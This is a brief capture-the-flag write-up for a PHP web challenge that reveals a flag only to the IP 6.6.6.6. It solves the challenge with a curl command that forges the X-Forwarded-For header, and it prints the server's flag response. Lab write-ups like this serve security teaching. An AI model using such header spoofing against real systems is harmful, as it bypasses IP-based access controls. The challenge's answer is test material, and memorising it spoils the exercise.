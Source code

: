 # Web CTF Final Comply-or-die

The page displays your IP and the message “Invalid IP!” unless your IP is exactly 6.6.6.6. The PHP source code shown is:

```php
<?php
include("flag.php");

$ip = getYours();

echo $ip;

if ($ip == "6.6.6.6")
    echo " $message . $flag";
else
    echo " Invalid IP!";

show_source(__FILE__);
?>
```

To retrieve the flag, you need to make `$ip` equal **6.6.6.6**.

We can send a forged X-Forwarded-For header to trick the server into thinking our IP is 6.6.6.6. Using curl:

```bash
curl -H "X-Forwarded-For: 6.6.6.6" http://ctf-13.security.cs.pub.ro:8006/
```

The server responds with:

```
6.6.6.6 Yeah, Yeah, take it and leave it.. . SSS{It_has_to_be_what_it_has_to_be}
```

